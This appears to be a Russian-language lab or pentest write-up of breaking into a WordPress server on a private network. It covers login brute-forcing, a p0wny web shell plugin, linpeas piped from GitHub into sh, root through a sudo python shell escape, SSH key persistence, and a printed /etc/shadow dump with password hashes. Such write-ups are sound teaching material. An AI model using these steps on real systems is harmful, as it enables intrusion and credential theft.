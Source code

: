 ## Wordpress (10.11.2.10)

### Атака

С помощью nmap'а сканим сети, находим http://10.11.2.10/, там крутится wordpress. На нем находим классическую форму логина http://10.11.2.10/wp-login.php, дальше пробрутив логины, пароли находим креды админа `admin:admin`. У этого пользователя есть права на установку плагинов, установим плагин для вебшелла https://github.com/flozz/p0wny-shell и получим "пользовательский" доступ к машине. Дальше запустив `linpeas`

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

увидим, что разрешенно выполнение `/bin/user/python` под суперпользователем без запроса пароля. 
Пропишем следущую команду и получим рутовый доступ
```bash
sudo python -c ‘import os; os.system(“/bin/sh”)’
```

Дальше сгенерировав открытый и закрытый ssh ключ, заливаем на тачку открытый ключ, что бы подключаться под root'ом через ssh.

Подключившись по ssh и получив удобный шелл, вытащим хеши паролей

```bash
$ cat /etc/shadow
root:$6$V91B2eA4NLQDXkK.$8HMq13zriCVZq2Wdz4hQmq.wSJg6oDCa3ExX9LQKTTHT7s9gk6u45bCc2IzRzymrmxF8zegOh/YrAA8jyTCsz0:18779:0:99999:7:::
daemon:*:18779:0:99999:7:::
bin:*:18779:0:99999:7:::
sys:*:18779:0:99999:7:::
sync:*:18779:0:99999:7:::
games:*:18779:0:99999:7:::
man:*:18779:0:99999:7:::
lp:*:18779:0:99999:7:::
mail:*:18779:0:99999:7:::
news:*:18779:0:99999:7:::
uucp:*:18779:0:99999:7:::
proxy:*:18779:0:99999:7:::
www-data:*:18779:0:99999:7:::
backup:*:18779:0:99999:7:::
list:*:18779:0:99999:7:::
irc:*:18779:0:99999:7:::
gnats:*:18779:0:99999:7:::
nobody:*:18779:0:99999:7:::
_apt:*:18779:0:99999:7:::
systemd-timesync:*:18779:0:99999:7:::
systemd-network:*:18779:0:99999:7:::
systemd-resolve:*:18779:0:99999:7:::
messagebus:*:18779:0:99999:7:::
sshd:*:18779:0:99999:7:::
cadm:$6$FXKabw570kGSXnL6$FfQUkrSUB7HtFXWuAwJlSV/YrFB0Vel8nJ.sZ9dOV.P/0icxeY5N/mNjW8HK/WBY20KYhq84jkIw44yaym3jt1:18779:0:99999:7:::
systemd-coredump:!!:18779::::::
mysql:!:18779:0:99999:7:::
admin:$6$g.7PD1hmRs69HVHL$h/.STarcTEGBMGL4grwdgMm2gMBLj12xWRgm/Vu1p5uJObiImx3aYPyyAGK5O7nYQ.GEKr/xskRhEf5ZkXd4t1:19060:0:99999:7:::

```
